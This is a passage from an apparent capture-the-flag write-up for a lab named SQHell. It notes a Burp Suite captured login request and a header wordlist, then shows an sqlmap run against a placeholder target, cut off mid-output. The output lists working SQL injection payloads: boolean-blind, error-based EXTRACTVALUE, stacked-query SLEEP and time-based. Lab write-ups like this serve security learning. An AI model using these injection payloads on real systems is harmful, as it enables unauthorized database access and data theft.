 ii: We can't be blamed for any security breaches<br>

iii: We log your IP address for analytics purposes<br>
</p>

<br>

<h3>-------- <code>Burp Suite</code> and <code>FoxyProxy</code> ---------</h3>

<p>Saved the login request as <code>req</code>.</p>

![image](https://github.com/user-attachments/assets/c892a5f1-d016-4a5d-9ddd-ae2c06c52dc1)

<br>


<br>

<h3>-------- <code>IP address for analytics purposes</code>:<code>Specific Headers</code> ---------</h3>

<p>Used <code>headers.txt</code> wordlist.</p>

<br>

```bash
:~/SQHell# ls
req
:~/SQHell# sqlmap -u "http://TargetIP/post?id=2" --dbs
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

...
[INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 stacked queries (comment)' injectable
...
[INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
...
[INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
...
[INFO] target URL appears to have 4 columns in query
...
[INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable.
...
GET parameter 'id' is vulnerable.
...
sqlmap identified the following injection point(s) with a total of 49 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=2 AND 7190=7190

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=2 AND EXTRACTVALUE(3683,CONCAT(0x5c,0x71766a7171,(SELECT (ELT(3683=3683,1))),0x717a717071))

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=2;SELECT SLEEP(5)#

    Type: time-based blind
```